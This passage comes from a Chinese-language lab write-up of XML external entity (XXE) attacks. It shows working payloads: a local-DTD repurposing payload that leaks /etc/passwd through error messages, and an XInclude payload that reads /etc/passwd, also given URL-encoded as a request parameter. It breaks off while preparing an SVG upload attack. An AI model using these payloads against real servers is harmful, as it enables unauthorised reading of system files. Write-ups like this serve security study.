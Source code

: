     ```xml-dtd
    <!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;&#x23;&#x78;&#x32;&#x35;&#x3b; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    '>
    %local_dtd;
    ]>
    ```

#### 8. Exploiting XInclude to retrieve files

> To perform an `XInclude` attack, you need to reference the `XInclude` namespace and provide the path to the file that you wish to include. For example:
>
> ```xml
> <foo xmlns:xi="http://www.w3.org/2001/XInclude">
> <xi:include parse="text" href="file:///etc/passwd"/></foo>
> ```

所以这里尝试使用上面的payload，因为这里是用的参数传递，所以进行了一次url编码。

```
productId=%3c%66%6f%6f%20%78%6d%6c%6e%73%3a%78%69%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%31%2f%58%49%6e%63%6c%75%64%65%22%3e%3c%78%69%3a%69%6e%63%6c%75%64%65%20%70%61%72%73%65%3d%22%74%65%78%74%22%20%68%72%65%66%3d%22%66%69%6c%65%3a%2f%2f%2f%65%74%63%2f%70%61%73%73%77%64%22%2f%3e%3c%2f%66%6f%6f%3e&storeId=1
```

可以直接通过。

#### 9. Exploiting XXE via image file upload

**要求：**

> This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
>
> To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

> Even if the application expects to receive a format like PNG or JPEG, the image processing library that is being used might support SVG images. Since the SVG format uses XML, an attacker can submit a malicious SVG image and so reach hidden attack surface for XXE vulnerabilities.

这里尝试使用SVG图像。

去网上搜了一下[如何创建一个svg图像](https://www.runoob.com/svg/svg-example.html)。

找到一个实例。

```html
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
  <circle cx="100" cy="50" r="40" stroke="black"
  stroke-width="2" fill="red" />
</svg>
```
